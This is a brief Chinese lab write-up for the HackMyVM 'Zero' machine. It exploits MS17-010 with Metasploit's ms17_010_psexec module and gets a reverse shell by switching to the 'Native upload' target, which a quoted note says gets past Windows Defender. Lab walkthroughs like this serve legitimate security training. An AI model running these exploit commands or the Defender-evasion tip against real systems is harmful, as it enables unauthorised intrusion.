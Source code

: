# Zero

## MS17-010

使用`fscan`扫描发现了`ms17-010`漏洞

![](./img/Zero-1.png)

`MS17-010`的打法很多，这里使用

如果用`exploit/windows/smb/ms17_010_eternalblue`会把虚拟机打蓝屏了

```bash
search 17_010
use exploit/windows/smb/ms17_010_psexec
set rhost 192.168.1.97
run
```

还是打失败了,错误信息为

![](./img/Zero-2.png)

找到了个大佬的wp[h4cker_b00k Zero WP](https://dise0.gitbook.io/h4cker_b00k/ctf/hackmyvm/zero-hackmyvm-easy-windows)，他写的原因是

> 尝试创建一个 `reverse shell` 但未能成功，因为 `Windows Defender` 可能正在阻止它，所以我们将使用另一个更隐秘的 `target` 

```bash
> show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
```

使用 `Native upload` 来自动上传一个文件，并生成一个 `reverse shell` ：

```bash
set target 2
```

![](./img/Zero-3.png)

即可成功获取